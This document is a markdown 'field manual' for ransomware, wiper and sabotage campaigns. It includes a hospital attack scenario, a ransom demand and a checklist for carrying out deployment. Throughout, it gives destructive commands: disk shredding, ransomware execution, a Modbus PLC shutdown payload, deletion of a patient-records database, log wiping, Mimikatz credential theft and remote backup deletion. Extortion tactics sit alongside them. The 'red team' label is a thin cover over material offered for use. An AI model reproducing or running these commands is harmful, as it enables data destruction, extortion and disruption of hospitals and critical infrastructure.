 # Field manual: Operation Nutcracker (2025 Edition)

*When you want to leave more than just shells behind – leave chaos.*

## Operational objectives

* Sabotage – Render systems unusable for geopolitical or competitive advantage
* Extortion – Maximize payout pressure through multi-vector attacks
* Plausible Deniability – Burn the house down without leaving fingerprints

## Attack arsenal

1. AI-Optimized ransomware (LockBit 5.0 Protocol)

Adaptive encryption engine:

```python
# Pseudocode for ML-driven target selection
if file_extension in ('.sql','.vmx','.backup'):
    encrypt(file)  # Prioritizes DBs/VMs/backups
else:
    bypass(file)   # Skips non-critical files to accelerate encryption
```

Triple extortion playbook:

* Encrypt primary storage
* [exfiltrate](exfiltration.md) to private Tor-based leak site
* Threaten volumetric DDoS during negotiations

2. Hybrid Wiper-Ransomware (Blackout Worm variants)

Execution Flow:

```bash
# Phase 1: Backup Destruction (Linux)
shred -n 10 -u /dev/sdX  # DoD 7-pass equivalent

# Phase 2: Ransomware Deployment (Windows)
.\MedusaLocker.exe --extension .chernobyl --note README.html
```

Use `ionice -c 3` to reduce disk I/O visibility during shredding.

3. Critical Infrastructure Sabotage

SCADA/ICS killswitch:

```python
# Modbus TCP payload to override PLC registers
payload = b'\x00\x01\x00\x00\x00\x06\x01\x06\x00\x64\xFF\xFF'  # Force emergency shutdown
```

Database annihilation:

```sql
    DROP DATABASE patient_records WITH NORECOVERY;  # SQL Server persistent damage
```

4. Forensic countermeasures

Log Obliteration Kit:

```powershell
# Windows
Clear-EventLog -LogName Security,Application,System
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\WMI\Autologger -Name Start -Value 0

# Linux
find /var/log -type f -exec shred -n 3 {} \;
```

Timestomping:

```bash
touch -r /etc/passwd malicious_file  # Inherits timestamps from legitimate file
```

## Red team exercise: "Hospital Zero" (2025)

Phase 1: Infiltration

* Delivery: Malicious ISO masquerading as "Patient_Scan_2987.iso"
* Exploit: CLFS zero-day (CVE-2025-29824) → NT AUTHORITY\SYSTEM

Phase 2: Domain Dominance

```powershell
# Credential Harvesting
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:corp.hospital /user:Administrator"'

# Lateral Movement
Enter-PSSession -ComputerName DC01 -Credential $creds -Authentication Negotiate
```

Phase 3: Surgical Strikes

```bash
# Backup Neutralization
ssh backupadmin@veeam01 "sudo rm -rf /backups/archive/* --no-preserve-root"

# Ransomware Deployment
.\locker.exe --config config.json --timeout 900  # 15-minute encryption sprint
```

Phase 4: Extortion

Negotiation channels:

* Primary: Tox Protocol (qTox client)
* Fallback: ProtonMail dead-drop

Payment demand:

* 500 XMR (~$5M) for decryptor
* +200 XMR to suppress 42GB patient data leak

## Blue Team counter-tactics (For OpSec testing)

| Tactic	                | Red Team Evasion Method                         |
|------------------------|-------------------------------------------------|
| Air-gapped backups	    | Veeam credential theft → Remote backup deletion |
| EDR behavioral alerts	 | Process hollowing into `svchost.exe`            |
| Zero Trust policies	   | ADCS relay attacks to forge Kerberos tickets    |

## Lessons from the field

*"In 2025, the most effective attacks look like accidents until it's too late. Your ransomware should be the 
second-worst thing in the victim's timeline."*

## Operational checklist

- ✅ Test wiper modules in QEMU sandboxes before deployment
- ✅ Pre-negotiate XMR escrow channels with dark web brokers
- ✅ Embed false [flags](flag.md) 
